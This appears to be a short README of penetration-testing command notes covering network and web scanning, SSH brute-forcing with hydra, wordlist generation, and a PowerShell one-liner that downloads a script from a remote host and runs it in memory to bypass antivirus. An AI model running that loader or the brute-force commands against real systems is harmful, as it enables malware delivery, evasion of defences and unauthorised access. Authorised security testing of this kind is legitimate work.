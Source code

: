 # tools
few scripts and useful commands

# scan
<ul>
<li>netdiscover -r 192.168.10.130/24</li>
<li>nmap -A -sS 192.168.10.135</li>
<li>nikto -h http://192.168.10.135/site</li>
<li>wapiti http://192.168.10.134/site</li>
<li>wordpress : wpscan --url http://192.168.10.135/site</li>
</ul>

# windows
<p>run ps1 script in memory (bypass antivirus) :</p>
<ul>
<li>powershell IEX (New-Object Net.WebClient).DownloadString('http://10.133.127.172:85/test.ps1')</li>
</ul>

# bruteforce
<ul>
<li>hydra -l user -P wordlist.txt 192.168.10.130 ssh</li>
</ul>
<p>generate wordlist from a password with 2 missing characters :</p>
<ul>
<li>crunch 7 7 -t passwo^% >> wordlist.txt</li>
</ul>
